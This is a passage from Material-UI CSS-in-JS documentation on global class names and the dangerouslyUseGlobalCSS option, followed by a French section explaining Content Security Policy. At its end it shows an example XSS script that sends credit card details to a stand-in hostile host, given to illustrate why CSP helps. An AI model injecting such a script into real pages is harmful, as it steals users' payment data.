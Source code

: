 ### `jss-plugin-global`

The [`jss-plugin-global`](#jss-plugins) plugin is installed in the default preset, you can use it to define global class names.

{{"demo": "pages/css-in-js/advanced/GlobalCss.js"}}

### Hybrid

You can also combine JSS generated class names with global ones.

{{"demo": "pages/css-in-js/advanced/HybridGlobalCss.js"}}

### Deterministic class names

We provide an option to make the class names **deterministic** with the [`dangerouslyUseGlobalCSS`](/css-in-js/api/#creategenerateclassname-options-class-name-generator) option. When turned on, the class names will look like this:

- development: `.AppBar-root`
- production: `.AppBar-root`

⚠️ **Be cautious when using `dangerouslyUseGlobalCSS`.** Relying on it for code running in production has the following implications:

- It's harder to keep track of `classes` API changes between major releases.
- Global CSS is inherently fragile.

⚠️ When using `dangerouslyUseGlobalCSS` standalone (without Material-UI), you should name your style sheets using the `options` parameter:

```jsx
// Hook
const useStyles = makeStyles(styles, { name: 'button' });

// Styled-components
const Button = styled(styles, { name: 'button' })(ButtonBase);

// Higher-order component
const Button = withStyles(styles, { name: 'button' })(ButtonBase);
```

## Politique de sécurité du contenu (CSP)

### Qu'est-ce que le CSP et en quoi est-ce utile ?

Fondamentalement, CSP atténue les attaques XSS (Cross-Site Scripting) en obligeant les développeurs à ajouter aux listes blanches les sources de leurs ressources. Cette liste est renvoyée en tant qu'en-tête du serveur. Par exemple, disons que vous avez un site hébergé à ` https://example.com ` l'en-tête CSP ` default-src: 'self'; ` autorisera toutes les requêtes à destination de ` https://example.com/* ` et refusera tous les autres. Si une section de votre site Web est vulnérable au XSS dans laquelle une entrée d'utilisateur non échappée est affichée, un attaquant pourrait saisir quelque chose du genre :

    <script>
      sendCreditCardDetails('https://hostile.example');
    </script>
    